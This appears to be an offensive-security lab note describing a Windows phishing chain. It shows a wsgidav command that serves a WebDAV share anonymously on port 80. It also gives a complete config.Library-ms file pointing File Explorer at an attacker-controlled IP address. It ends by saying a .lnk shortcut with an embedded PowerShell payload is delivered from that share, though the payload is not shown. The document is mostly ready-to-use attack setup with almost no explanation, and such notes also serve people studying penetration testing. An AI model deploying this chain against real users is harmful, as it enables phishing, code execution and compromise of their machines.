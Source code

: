 To have a location where a file can be put:
```
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
```



The shortcut file will open the target directory in the `File Explorer` when double-clicked. From there, a `.lnk` can be used.
Name: `config.Library-ms`
```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.45.194</url>
<serialized></serialized>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

From this point, a `.lnk` file can be used with an embedded Powershell payload.